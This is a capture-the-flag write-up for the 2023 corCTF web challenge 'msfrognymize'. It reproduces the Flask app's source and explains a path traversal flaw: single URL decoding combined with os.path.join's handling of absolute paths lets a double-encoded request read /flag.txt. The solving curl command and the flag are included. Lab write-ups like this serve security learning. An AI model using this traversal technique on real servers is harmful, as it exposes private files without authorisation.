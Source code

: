 ```yaml
---
title: 2023 corCTF - msfrognymize
date: 2023-07-31 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_corCTF
  - Web Exploitation
  - Path traversal
---
```


## Overview

* 64 solves / 147 points
* author: jazzpizazz

## Description

> At CoR we care greatly about privacy (especially FizzBuzz). For this reason we anonymize any selfies before sharing them on Discord. We even encrypt the metadata using a special key!

### Attached

[msfrognymize.tar.gz](https://static.cor.team/uploads/edd98f8d859b22e2924932ef6936368031f76825e6534413ca95f2c34ef0cac4/msfrognymize.tar.gz)

```python
import os
import piexif
import tempfile
import uuid

from PIL import Image, ExifTags
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes, hmac
from flask import Flask, request, send_file, render_template
from urllib.parse import unquote
from werkzeug.utils import secure_filename

from celery_config import celery_app
from tasks import process_image

app = Flask(__name__)

celery_app.conf.update(app.config)

UPLOAD_FOLDER = 'uploads/'
ENCRYPTION_KEY = open("/flag.txt", "rb").readline()


def hmac_sha256(data):
    h = hmac.HMAC(ENCRYPTION_KEY, hashes.SHA256(), backend=default_backend())
    h.update(data)
    return h.finalize().hex()


def encrypt_exif_data(exif_data):
    new_exif_data = {}
    for tag, value in exif_data.items():
        if tag in ExifTags.TAGS:
            tag_name = ExifTags.TAGS[tag]
            if tag_name == "Orientation":
                new_exif_data[tag] = 1
            else:
                new_exif_data[tag] = value
        else:
            new_exif_data[tag] = hmac_sha256(value)
    return new_exif_data


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        file = request.files['file']
        if file:
            try:
                img = Image.open(file)
                if img.format != "JPEG":
                    return "Please upload a valid JPEG image.", 400

                exif_data = img._getexif()
                encrypted_exif = None
                if exif_data:
                    encrypted_exif = piexif.dump(encrypt_exif_data(exif_data))
                filename = secure_filename(file.filename)
                temp_path = os.path.join(tempfile.gettempdir(), filename)
                img.save(temp_path)

                unique_id = str(uuid.uuid4())
                new_file_path = os.path.join(UPLOAD_FOLDER, f"{unique_id}.png")
                process_image.apply_async(args=[temp_path, new_file_path, encrypted_exif])

                return render_template("processing.html", image_url=f"/anonymized/{unique_id}.png")

            except Exception as e:
                return f"Error: {e}", 400

    return render_template("index.html")


@app.route('/anonymized/<image_file>')
def serve_image(image_file):
    file_path = os.path.join(UPLOAD_FOLDER, unquote(image_file))
    if ".." in file_path or not os.path.exists(file_path):
        return f"Image {file_path} cannot be found.", 404
    return send_file(file_path, mimetype='image/png')


if __name__ == '__main__':
    app.run()

```

## Analyzation

These are important lines

```python
UPLOAD_FOLDER = 'uploads/'
ENCRYPTION_KEY = open("/flag.txt", "rb").readline()

@app.route('/anonymized/<image_file>')
def serve_image(image_file):
    file_path = os.path.join(UPLOAD_FOLDER, unquote(image_file))
    if ".." in file_path or not os.path.exists(file_path):
        return f"Image {file_path} cannot be found.", 404
    return send_file(file_path, mimetype='image/png')
```

All the images are stored in ```uploads/``` directory.

When a ```GET``` request is sent to ```/anonymized/<image_file>```, it will:
- URL decode the image filename ```<image_file>```, and join the path ```UPLOAD_FOLDER``` by ```os.path.join()``` function.
- Check if ```..``` and the filepath ```uploads/<image_file>``` exists in the ```file_path``` or not.
- Send the image to the client.

[Path traversal](https://owasp.org/www-community/attacks/Path_Traversal) is the answser for this problem. But how??

- Firstly, we need to bypass the ```..``` filter. The ```unquote()``` decode only ONE TIME (!) So double encoding will work.
- Secondly, the ```os.path.join()``` function itself vulnerable. Because [python.org document](https://docs.python.org/3/library/os.path.html#os.path.join) says
```
If a segment is an absolute path (which on Windows requires both a drive and a root), then all previous segments are ignored and joining continues from the absolute path segment.
```

So just give them absolute path of flag, ```/flag.txt```.

## Solution

```sh
curl https://msfrognymize.be.ax/anonymized/%252Fflag.txt
```

The flag is
```
corctf{Fr0m_Priv4cy_t0_LFI}
```
